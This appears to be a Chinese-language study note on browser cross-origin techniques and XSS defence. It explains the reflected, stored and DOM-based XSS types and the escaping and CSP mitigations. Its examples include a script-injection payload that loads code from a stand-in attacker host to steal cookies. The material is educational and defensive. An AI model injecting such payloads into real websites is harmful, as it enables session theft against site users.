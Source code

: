 该方法仅适用于多子域名的大网站，比如服务器地址 xxx.com，请求可能来自 a.xxx.com 或者 b.xxx.com，这时可以通过在 script 脚本中把 document.domain 设置为 xxx.com 来修改自己的源，来通过同源策略。

- 可将相同一级域名下的子域名页面的 document.domain 设置为一级域名实现跨域。
- 可将同域不同端口的 document.domain 设置为同域名实现跨域（端口被置为 null）。

注意这种方式必须是同一个一级域名。

### postMessage 方式

这不是一种通用的跨域方式，用于页面内嵌`<iframe>`的时候，在两个不同源的页面之间进行通信。

## 安全防范

### 2.1 XSS 跨站脚本攻击

Cross Site Scripting 为了和 CSS 区别，CSS 指的是层叠样式表 (Cascading Style Sheets) 用户输入或使用其他方式向代码中注入其他JS，然后JS代码被执行。

1. 可能是写一个死循环、获取cookie登录
2. 监听用户行为
3. 修改DOM伪造登录表单
4. ⻚面生成浮窗广告

#### 反射型（非持久）

攻击者通过在 URL 插入恶意代码，其他用户访问该恶意链接时，服务端在 URL 取出恶意代码后拼接至 HTML 中返回给用户浏览器。

1. 攻击者诱导被害者打开链接 `http://xxx.com?name=<script src="http://a.com/attack.js"/>`。
2. 被攻击网站服务器收到请求后，**未经处理**直接将 URL 的 name 字段直接拼接至前端模板中，并返回数据。
3. 被害者在不知情的情况下，执行了攻击者注入的脚本（可以通过这个获取对方的 Cookie 等）。

#### 存储型（持久）

攻击者将注入型脚本提交至被攻击网站数据库中，当其他用户浏览器请求数据时，注入脚本从服务器返回并执行。

1. 攻击者在目标网站留言板中提交了`<script src="http://a.com/attack.js"/>`。
2. 目标网站服务端**未经转义**存储了恶意代码，前端请求到数据后直接通过 innerHTML 渲染到页面中。
3. 其他用户在访问该留言板时，会自动执行攻击者注入脚本。

#### DOM型

攻击者通过在 URL 插入恶意代码，客户端脚本取出 URL 中的恶意代码并执行。

1. 攻击者诱导被害者打开链接 `http://xxx.com?name=<script src="http://a.com/attack.js"/>`。
2. 被攻击网站前端取出 URL 的 name 字段后未经转义直接通过 innerHTML 渲染到页面中。
3. 被害者在不知情的情况下，执行了攻击者注入的脚本。

#### _防范方式_

**一个信念，两个利用**

- 对于外部传入的内容要进行充分转义。
- 开启 CSP（Content Security Policy，**内容**安全策略），规定客户端哪些**外部资源**可以加载和执行，补充浏览器同源策略对资源文件的限制，降低 XSS 风险。

```http
// script-src： 指定允许加载脚本的资源
Content-Security-Policy: script-src 'self' https://trusted-scripts.com;
```
